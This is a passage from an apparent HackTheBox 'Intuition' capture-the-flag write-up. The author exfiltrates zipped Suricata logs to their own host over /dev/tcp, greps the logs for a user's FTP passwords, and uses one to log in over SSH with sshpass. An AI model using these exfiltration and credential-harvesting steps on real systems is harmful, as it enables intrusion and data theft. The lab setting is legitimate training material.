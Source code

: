 
```bash
dev_acc@intuition:/var/log$ zip /tmp/suricata-logs -r suricata/
dev_acc@intuition:/var/log$ cat /tmp/suricata-logs.zip > /dev/tcp/10.10.15.95/443
```

```bash
❯ unzip suricata-logs.zip
❯ cd suricata
❯ gzip -d *.gz
```

Filtering for word "pass" gives ftp commands that a `lopez` user used:

```bash
❯ cat * | grep --text -i pass | grep -vE 'flow.mgr.full_hash_pass|"event_type":"stats"|"http_user_agent":"Fuzz Faster U Fool v2.0.0-dev"'
```

> Note: here I removed lines that contained `"event_type": "stats"` because that's not network data and also removed the lines that contained `"http_user_agent":"Fuzz Faster U Fool v2.0.0-dev"` because that was fuzzing requests of me and another users of hackthebox. The removing of `flow.mgr.full_hash_pass` is because it disturbed and didn't gived interesting data.

![](/assets/images/Intuition/Pasted%20image%2020240910212341.png)
I can see two possible password for user lopez, "Lopezzz1992%123" and "Lopezz1992%123". They obviously doesn't work for ftp (because there is not directory in /opt/ftp with name lopez):

```bash
dev_acc@intuition:/var/log$ ftp lopez@localhost
Connected to localhost.
220 pyftpdlib 1.5.7 ready.
331 Username ok, send password.
Password: Lopezzz1992%123
530 Authentication failed.
ftp: Login failed
dev_acc@intuition:/var/log$ ftp lopez@localhost
Connected to localhost.
220 pyftpdlib 1.5.7 ready.
331 Username ok, send password.
Password: Lopezz1992%123
530 Authentication failed.
ftp: Login failed
```

But 'Lopezz1992%123' work for ssh:

```bash
❯ sshpass -p 'Lopezzz1992%123' ssh lopez@10.10.11.15
Permission denied, please try again.
❯ sshpass -p 'Lopezz1992%123' ssh lopez@10.10.11.15

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```